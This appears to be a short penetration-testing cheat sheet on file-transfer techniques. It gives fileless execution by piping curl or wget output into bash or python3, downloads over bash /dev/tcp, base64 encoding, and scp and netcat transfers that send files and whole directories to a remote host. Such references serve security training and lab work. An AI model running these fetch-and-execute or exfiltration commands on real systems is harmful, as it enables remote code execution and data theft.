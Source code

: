 #### Fileless Execution

```bash
# Execute without saving to disk
curl http://10.10.10.10/script.sh | bash

# Python script execution
wget -qO- http://10.10.10.10/script.py | python3
```

#### Bash /dev/tcp

```bash
# Download using bash networking
exec 3<>/dev/tcp/10.10.10.10/80
echo -e "GET /file HTTP/1.1\nHost: 10.10.10.10\n\n" >&3
cat <&3 > /tmp/file
```

#### Base64 Transfers

```bash
# Encode file to Base64
cat /tmp/file | base64 -w 0

# Decode Base64 to file
echo "BASE64_STRING" | base64 -d > /tmp/file
```

#### SCP Transfers

```bash
# Download with SCP
scp user@10.10.10.10:/path/to/file /tmp/file

# Upload with SCP
scp /tmp/file user@10.10.10.10:/path/to/destination

# Recursive directory transfer
scp -r /local/directory user@10.10.10.10:/remote/path
```

#### Netcat Transfers

```bash
# Receiving end
nc -lnvp 4444 > /tmp/file

# Sending end
cat /tmp/file | nc 10.10.10.10 4444

# Transfer directory using tar
tar -czvf - /path/to/dir | nc 10.10.10.10 4444
# Receiving end
nc -lnvp 4444 | tar -xzvf -
```
